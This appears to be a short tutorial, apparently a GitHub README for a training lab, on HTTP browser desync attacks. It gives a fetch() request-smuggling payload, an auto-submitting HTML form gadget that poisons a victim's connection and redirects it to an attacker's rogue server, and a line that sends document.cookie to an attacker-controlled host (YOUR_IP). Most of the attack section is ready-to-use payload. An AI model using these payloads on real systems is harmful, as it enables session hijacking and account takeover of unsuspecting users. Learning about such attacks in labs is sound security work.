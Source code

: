 # HTTP Browser Desync Attack

### In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.

### This attack occurs in two steps:

#### 1) The initial request, appearing legitimate, is intended to disrupt the user request queue by introducing an arbitrary request. 

#### 2) Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.

### Straightforward payload example:

fetch('http://MACHINE_IP:5000/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})

### Write this JavaScript Payload in your browser command line that you can write JS

### Command breakdown:

#### 1) http://MACHINE_IP = This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.

#### 2) { method: 'POST' } = The method parameter specifies the HTTP method for the request. Here, it's set to 'POST'.

#### 3) { body: 'GET /redirect HTTP/1.1\r\nFoo: x' } = In the body, there is the second request that is going to be injected into the queue.

#### 4) { mode: 'cors' } = This flag triggers an error when visiting the 404 web page and avoids following the redirect.

# Browser Desync exploit chaining XSS

### One potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.

### Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim. 

### We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

>>form id="btn" action="http://MACHINE_NAME.COM/"
    method="POST"
    enctype="text/plain">
>textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
>button type="submit">placeholder2</button>
>/form>
>script> btn.submit() </script>

### We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.

### Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.

### To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

### To do so, we can set up a rogue server by serving a route with a malicious payload like fetch('http://YOUR_IP/' + document.cookie);

